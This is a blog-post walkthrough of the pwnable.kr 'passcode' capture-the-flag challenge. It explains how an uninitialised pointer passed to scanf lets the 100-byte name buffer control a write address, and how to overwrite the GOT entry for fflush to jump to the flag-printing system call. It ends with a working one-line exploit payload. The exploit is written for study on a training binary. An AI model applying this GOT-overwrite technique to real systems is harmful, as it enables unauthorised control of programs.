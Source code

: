 ```yaml
---
layout: post
title: Pwnable.kr Passcode Walk-through
---
```


## Pwnable.kr Passcode Walk-though
Here is a walk-through of the passcode challenge on [Pwnable.kr](http://pwnable.kr/play.php).

After logging into the remote server, we can look at the C source. The authentication check seems pretty simple:

    if (passcode1 == 338150 && passcode2 == 13371337) {
        printf("Login OK!\n");
        system("/bin/cat flag");
    }

Therefore if we can put the correct magic numbers into the two passcode integers the flag will be printed. It can't be 
that simple, can it? Let's run the program and see:

    > ./passcode
    enter you name : matthew
    Welcome matthew!
    enter passcode1 : 338150
    Segmentation fault

Clearly not. The program crashes even with reasonable inputs...

There is a clue in the challenge description that the C program produces compiler warnings. Let's try compiling and
see if that provides any insights. Running:

    gcc passcode.c

fails to create an output file due to permissions, but does provide the following warnings:

    passcode.c: In function ‘login’:
    passcode.c:9:8: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
      scanf("%d", passcode1);
            ^
    passcode.c:14:15: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
             scanf("%d", passcode2);
                   ^

Well, here's the cause of the segmentation fault. The passcodes are being written to arbitrary memory addresses.
This suggests that if we could somehow control these memory addresses we could populate them with data of our choice.

Taking another look at the code we can see that the name input is 100 bytes long. It can't be overflowed, however, due
to the `scanf` format string. Nor is there a format string vulnerability in the subsequent `printf`:

    char name[100];     
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);

OK then. Let's just fill the buffer with 100 'A's and use `gdb` to see what happens:

    > python -c "from __future__ import print_function ; print('A'*100, end='')" > /tmp/pcex123
    gdb -q passcode
    (gdb) set disassembly intel
    (gdb) b login
    (gdb) run < /tmp/pcex123
    (gdb) layout asm

The passcode addresses can be seen looking at the disassembly of the `login` function:

    0x8048577 <login+19>    mov    eax,0x8048783
    0x804857c <login+24>    mov    edx,DWORD PTR [ebp-0x10]
    0x804857f <login+27>    mov    DWORD PTR [esp+0x4],edx
    0x8048583 <login+31>    mov    DWORD PTR [esp],eax
    0x8048586 <login+34>    call   0x80484a0 <__isoc99_scanf@plt>

and:

    0x80485a5 <login+65>    mov    eax,0x8048783
    0x80485aa <login+70>    mov    edx,DWORD PTR [ebp-0xc]
    0x80485ad <login+73>    mov    DWORD PTR [esp+0x4],edx
    0x80485b1 <login+77>    mov    DWORD PTR [esp],eax
    0x80485b4 <login+80>    call   0x80484a0 <__isoc99_scanf@plt>

The only difference between these two blocks of code is the value placed onto the stack from `edx`. For `passcode1` 
it's the content of `ebp-0x10` and for `passcode2` it's the content of `ebp-0xc`. The fact that these two stack addresses
are only 4 bytes apart (the size of an `int`) corroborates that these are the passcodes.

Looking at the content of these addresses:

    (gdb) x/x $ebp-0x10
    0xff8e84d8:     0x41414141
    (gdb) x/x $ebp-0xc
    0xff8e84dc:     0xad1ce200

we can see that `passcode1` has been written into with 'A's (0x41 is the ASCII hex value of 'A'), but `passcode2` has not.

So, we can manipulate the value of `passcode1` but not `passcode2`. That suggests that we need to somehow bypass the
expression in the `if` statement which checks the passcodes. We can't patch the binary, though, since we don't have
permission and the text (code) segment is read-only. What we need is a way to modify data that controls the execution flow.

The Global Offset Table (GOT) holds memory addresses of functions in shared libraries which a process links to
at runtime. Since the memory addresses of the shared functions are not known when the process is compiled, the GOT is
updated during process start-up. This means it is writable by the process and a useful control point for us.

Helpfully (!) there is a library call to `fflush` right after the `scanf` for `passcode1`:

    scanf("%d", passcode1);
    fflush(stdin);

By running:

    objdump -R passcode

we can see that the address of the GOT entry for `fflush` is 0x0804a004:

    passcode:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049ff0 R_386_GLOB_DAT    __gmon_start__
    0804a02c R_386_COPY        stdin@@GLIBC_2.0
    0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
    0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0 <----------------
    0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
    0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
    0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
    0804a014 R_386_JUMP_SLOT   __gmon_start__
    0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
    0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
    0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7

And looking at the disassembly of the `login` function with:

    objdump -d -Mintel passcode

    ...
    80485e3:       c7 04 24 af 87 04 08    mov    DWORD PTR [esp],0x80487af
    80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
    ...

we can see that the address we want to write (to jump over the `if` check) is 0x080485e3, which is 134514147 in decimal.

Armed with those two addresses and taking into account that x86 is little-endian, let's try out our exploit:

    python -c "from __future__ import print_function ; print('A'*96 + '\x04\xa0\x04\x08' + '134514147', end='')" | ./passcode

And we capture the flag!
